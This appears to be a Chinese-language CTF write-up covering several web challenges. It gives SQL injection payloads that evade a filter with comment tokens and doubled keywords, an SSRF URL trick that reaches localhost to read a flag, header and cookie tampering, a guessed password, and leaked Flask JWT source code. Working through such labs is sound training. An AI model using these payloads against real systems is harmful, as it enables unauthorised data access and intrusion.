 重新来过
-1/**/union/**/selselectect/**/1,2,group_concat(schema_name)/**/from/**/information_schema.schemata
[图片]
-1/**/union/**/selselectect/**/*/**/from/**/xuanyuanCTF.info#
[图片]
[图片]
ezssrf1.0
http://27.25.151.26:30326/?url=http:@127.0.0.1/flag
[图片]
http://27.25.151.26:30326/?url=http:@127.0.0.1/FFFFF11111AAAAAggggg.php
[图片]
签到
[图片]
Get a=welcome post b=new cookie star=admin
[图片]
[图片]
回车绕过
[图片]
Referer secretcode  post key ctfpass
[图片]
[图片]
[图片]
[图片]
Sort /f*
[图片]
ezweb1
[图片]
很容易猜到密码
123456789 直接登录
进来之后发现两个路由
一个read一个upload
发现可以文件读取，先读源码
  from flask import Flask, render_template, request, redirect, url_for, make_response, jsonify
import os
import re
import jwt


app = Flask(__name__, template_folder='templates')
app.config['TEMPLATES_AUTO_RELOAD'] = True
SECRET_KEY = os.getenv('JWT_KEY')
book_dir = 'books'
users = {'fly233': '123456789'}


def generate_token(username):
    payload = {
        'username': username
    }
    token = jwt.encode(payload, SECRET_KEY, algorithm='HS256')
    return token


def decode_token(token):
    try:
        payload = jwt.decode(token, SECRET_KEY, algorithms=['HS256'])
        return payload
    except jwt.ExpiredSignatureError:
        return None
    except jwt.InvalidTokenError:
        return None
